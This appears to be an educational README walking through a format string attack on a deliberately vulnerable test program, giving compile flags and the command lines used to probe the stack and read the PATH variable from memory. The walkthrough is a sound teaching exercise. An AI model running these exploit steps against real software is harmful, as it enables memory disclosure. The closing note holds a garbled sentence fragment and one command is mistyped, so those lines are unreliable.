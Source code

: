 This example demonstrates arbitrary memory location read
using format string attack.

I've tested this code on a VM running: Ubuntu 12.04.4 LTS i686

1. Compile included program to determine where PATH is when running our vulnerable 
program:
   * See ../../common/ on getenvaddr.c
2. Compile our vulnerable program:
   * gcc -mpreferred-stack-boundary=2 -g -o fsa fsa.c 
3. Run getenvaddr to determine the memory address we're going to read with format
string attack:
   * ./getenvaddr PATH fsa
4. Run our vulnerable program with a suitably crafted input to determine how 
far we need to move the stack pointer before treating memory as string:
   * ./fsa $(printf "AAAA").$(python -c "print('%08x.') * 20")
   * Note how many bytes there are to 0x41414141 (count)
5. Run our vulnerable program with count * '%08x.' + %s to read memory address we
found with getenvaddr:
   * ./fsa $(printf \xff\xff\xff\xff).$(python -c "print('%08x.' * count + '%s'")
   * Note \xff\xff\xff\xff should be replaced with the memory address we found with
getenvaddr in litte endian (getenvaddr will print the address in big endian)
   * This should print the PATH environment variable when our vulnerable program
was executed

--

Notes:
* In the examples we're doing everything in main.  To 'force' the format string attack
to work, we have to introduce the items on the stack using strcpy or some other method.
In the real world the unsanitised format string would probably be passed to another
function which would automatically give you it on the stack.
have been to introduce another function that accepted the fmt string
and subsequently called printf.
